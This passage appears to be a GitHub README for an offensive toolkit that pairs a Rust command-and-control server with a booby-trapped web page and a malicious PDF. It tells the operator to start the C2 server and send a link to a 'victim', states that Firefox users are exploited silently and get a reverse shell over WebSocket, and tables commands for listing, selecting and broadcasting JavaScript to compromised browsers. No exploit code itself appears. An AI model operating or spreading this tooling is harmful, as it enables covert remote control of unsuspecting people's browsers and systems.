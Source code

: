 
### Step 3: Start Your C2 Server

#### Rust Native C2 (recommended)

```bash
cd rust_c2
cargo run
```
---

### Step 4: Send Link to Victim

```text
http://your-ip:8080/index.html
```

✅ Victim opens the link  
✅ If Firefox → gets exploited silently  
✅ Reverse shell established over WebSocket  
✅ Control victim via C2 prompt

---

## 🎯 C2 Commands

| Command | Description |
|:-------:|:-----------:|
| `list` | Show connected victims |
| `select <id>` | Control specific victim |
| `broadcast` | Send command to all victims |
| `exit` | Exit server |

Inside a selected victim:
- Type JavaScript commands to execute live
- Example: `alert("Hacked!");`
- Type `exit` to leave victim control

---

## 📦 Files Overview

| File | Purpose |
|:----:|:-------:|
| `src/main.rs` | Rust exploit generator and Rust C2 server |
| `index.html` | Main auto-loader page (browser detection) |
| `unsupported.html` | Safe redirect page for non-targets |
| `poc.pdf` | Malicious payload |
